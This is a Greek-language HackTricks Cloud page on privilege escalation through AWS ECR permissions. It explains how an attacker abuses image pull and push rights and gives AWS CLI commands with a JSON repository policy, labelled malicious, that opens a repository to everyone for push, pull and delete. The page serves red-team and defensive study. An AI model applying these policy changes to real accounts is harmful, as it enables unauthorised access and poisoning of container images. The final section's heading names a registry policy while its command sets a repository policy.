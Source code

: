 # AWS - ECR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

Ένας επιτιθέμενος με το **`ecr:GetAuthorizationToken`** και **`ecr:BatchGetImage`** μπορεί να συνδεθεί στο ECR και να κατεβάσει εικόνες.

Για περισσότερες πληροφορίες σχετικά με το πώς να κατεβάσετε εικόνες:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**Potential Impact:** Έμμεση εκμετάλλευση μέσω της παρεμπόδισης ευαίσθητων πληροφοριών στην κίνηση.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

Ένας επιτιθέμενος με όλες αυτές τις άδειες **μπορεί να συνδεθεί στο ECR και να ανεβάσει εικόνες**. Αυτό μπορεί να είναι χρήσιμο για την κλιμάκωση των δικαιωμάτων σε άλλα περιβάλλοντα όπου χρησιμοποιούνται αυτές οι εικόνες.

Για να μάθετε πώς να ανεβάσετε μια νέα εικόνα/να ενημερώσετε μία, ελέγξτε:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

Όπως η προηγούμενη ενότητα, αλλά για δημόσιες αποθήκες.

### `ecr:SetRepositoryPolicy`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να **αλλάξει** την **πολιτική** **της αποθήκης** για να παραχωρήσει στον εαυτό του (ή ακόμα και σε όλους) **πρόσβαση ανάγνωσης/εγγραφής**.\
Για παράδειγμα, σε αυτό το παράδειγμα, η πρόσβαση ανάγνωσης παραχωρείται σε όλους.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
Περιεχόμενα του `my-policy.json`:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

Όπως η προηγούμενη ενότητα, αλλά για δημόσιες αποθήκες.\
Ένας επιτιθέμενος μπορεί να **τροποποιήσει την πολιτική αποθήκης** μιας δημόσιας αποθήκης ECR για να παραχωρήσει μη εξουσιοδοτημένη δημόσια πρόσβαση ή να κλιμακώσει τα δικαιώματά του.

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη δημόσια πρόσβαση στο δημόσιο αποθετήριο ECR, επιτρέποντας σε οποιονδήποτε χρήστη να σπρώξει, να τραβήξει ή να διαγράψει εικόνες.

### `ecr:PutRegistryPolicy`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να **αλλάξει** την **πολιτική αποθετηρίου** για να παραχωρήσει στον εαυτό του, τον λογαριασμό του (ή ακόμα και σε όλους) **πρόσβαση ανάγνωσης/εγγραφής**.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στο [**telegram group**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
